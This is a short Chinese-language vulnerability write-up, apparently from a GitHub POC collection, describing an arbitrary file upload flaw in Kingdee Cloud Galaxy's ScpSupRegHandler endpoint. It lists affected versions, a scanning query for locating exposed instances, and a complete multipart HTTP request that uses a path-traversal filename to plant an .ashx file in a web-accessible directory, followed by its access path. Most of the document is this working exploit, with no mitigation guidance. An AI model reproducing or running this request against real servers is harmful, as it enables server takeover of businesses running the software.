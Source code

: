 ## 金蝶OA云星空 ScpSupRegHandler 任意文件上传漏洞

### 漏洞描述：
金蝶OA云星空 ScpSupRegHandler接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限

### 漏洞影响：

金蝶云星空企业版私有云、企业版私有云（订阅）、标准版私有云（订阅）三个产品V6.2(含17年12月补丁) 至 V8.1(含23年9月补丁)

### 网络测绘：
```
app="金蝶云星空-管理中心"
```

### 漏洞复现：
登陆页面
POC:
```
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061

Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

11
--2ac719f8e29343df94aa4ab49e456061-
```

![image](../../images/0175cf8c-a854-4b15-800c-7a07e3d0306c.png)

![image](../../images/7e731399-8257-448b-9ab4-2260d9c4dc43.png)

### 文件上传路径
```
访问路径：/K3Cloud/uploadfiles/Test.ashx
```
